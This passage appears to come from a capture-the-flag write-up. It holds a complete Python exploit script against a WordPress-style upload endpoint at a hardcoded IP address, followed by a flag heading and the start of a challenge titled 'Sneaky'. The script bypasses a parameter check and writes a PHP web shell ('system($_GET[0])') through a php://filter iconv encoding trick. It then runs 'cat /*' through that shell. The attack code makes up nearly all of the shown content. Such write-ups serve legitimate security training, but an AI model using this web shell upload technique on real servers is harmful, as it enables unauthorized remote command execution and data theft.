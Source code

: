 ```python
import httpx
import asyncio
URL = "http://52.77.81.199:9199/"
class BaseAPI:
    def __init__(self, url=URL) -> None:
        self.c = httpx.AsyncClient(base_url=url)

class API(BaseAPI):
    async def upload_something(self, content: str, name: str) -> None:
        data = {
            "content": content,
            "name": name
        }
        return await self.c.post("/wp-json/test/upload/x", params={"somevalue": "secretword_is_true\x01"}, json=data)
    def get_shell(self, cmd):
        return self.c.get("/wp-content/uploads/x.php", params={"0": cmd})
async def main():
    api = API()
    res = await api.upload_something(
        content=b" <?php system($_GET[0]);?>".decode('utf-16-be'),
        name="php://filter/convert.iconv.UTF8.UTF-16BE/resource=/var/www/html/wp-content/uploads/x"
    )
    res = await api.get_shell("cat /*")
    print(res.text)

if __name__ == "__main__":
    asyncio.run(main())
 
```

### Flag

![](./imgs/image_dxH47Wup.png)

# **Sneaky**

| Solves | 5 |
| ------ | - |

Description

